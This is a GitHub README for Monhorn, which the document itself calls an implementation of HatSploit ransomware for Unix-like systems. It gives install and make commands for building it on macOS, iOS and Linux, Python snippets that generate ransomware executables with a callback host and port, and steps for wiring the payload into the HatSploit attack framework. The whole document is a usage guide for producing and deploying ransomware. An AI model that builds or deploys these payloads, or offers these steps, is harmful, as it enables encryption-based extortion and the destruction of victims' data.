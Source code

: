 # Monhorn

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Monhorn?color=yellow">
    </a>
</p>

Monhorn is an implementation of HatSploit ransomware for Unix-like systems, that firstly establishes a remote connection and then begins crypto operations.

## Installing

You should install HatSploit to get Monhorn, because Monhorn depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Monhorn

**Dependencies:** `ssl`, `crypto`

These are platforms which are supported by Monhorn.

* **macOS** - `make all platform=macos sdk=<path>`
* **Apple iOS** - `make all platform=apple_ios sdk=<path>`
* **Linux** - `make all platform=linux`

**NOTE:** To compile for target `macos` you will need to download patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs) and to compile for `apple_ios` target you will need to download patched SDKs from [here](https://github.com/theos/sdks).

## Basic usage

To use Monhorn and build payloads you should import it to your source.

```python3
from pwny import Monhorn
from pwny import MonhornSession
```

* `Monhorn` - Monhorn utilities, mostly for generating payloads and encoding arguments.
* `MonhornSession` - Wrapper for `HatSploitSession` for Monhorn, HatSploit should use it with Monhorn payload.

To get Monhorn template, you should call `get_template()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
template = monhorn.get_template('linux', 'x64')
```

To encode Monhorn data, you should call `encode_data()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
args = monhorn.encode_data('127.0.0.1', 8888)
```

To get Monhorn executable, you should call `get_monhorn()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
executable = monhorn.get_monhorn('linux', 'x64', '127.0.0.1', 8888)
```

**NOTE:** If you want Monhorn to connect you should specify both `host` and `port`, but if you want Monhorn to listen, you should specify only `port`.

## Adding Monhorn payload

To add Monhorn payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Monhorn` and `MonhornSession` and put `Monhorn` to `HatSploitPayload` class.
* Set payload parameter `Session` to `MonhornSession`.
* Return `get_monhorn()` with platform, architecture and host and port specified.

```python3
return self.get_monhorn(
    self.details['Platform'],
    self.details['Architecture'],
    remote_host,
    remote_port
)
```
